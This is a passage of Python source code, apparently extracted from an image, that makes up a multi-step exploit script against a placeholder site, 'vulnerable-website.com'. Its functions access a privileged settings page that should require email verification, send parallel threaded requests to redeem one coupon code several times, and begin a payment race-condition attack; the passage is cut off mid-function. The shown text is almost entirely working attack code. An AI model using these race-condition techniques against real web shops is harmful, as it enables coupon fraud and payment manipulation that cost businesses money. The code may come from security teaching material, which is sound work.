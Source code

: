          # Prepare request to access privileged function
         # that should require email verification
         access_req = session.get(
             "https://vulnerable-website.com/account/settings"
         )
         
         return session
     
     # Step 2: Use the verified account to exploit a coupon code race condition
     def exploit_coupon_code(session, code):
         successful = 0
         threads = []
         
         def apply_code():
             nonlocal successful
             response = session.post(
                 "https://vulnerable-website.com/apply-coupon",
                 json={"code": code}
             )
             if "success" in response.text.lower():
                 successful += 1
             return response
         
         # Send multiple parallel requests to apply the same code
         for i in range(5):
             thread = threading.Thread(target=apply_code)
             threads.append(thread)
             thread.start()
         
         # Wait for all threads
         for thread in threads:
             thread.join()
             
         return successful
     
     # Step 3: Exploit a payment race condition
     def exploit_payment_race(session, amount):
         # Prepare payment request
         payment_req = threading.Thread(
             target=lambda: session.post(
                 "https://vulnerable-website.com/process-payment",
                 json={"amount": amount}
             )
         )
         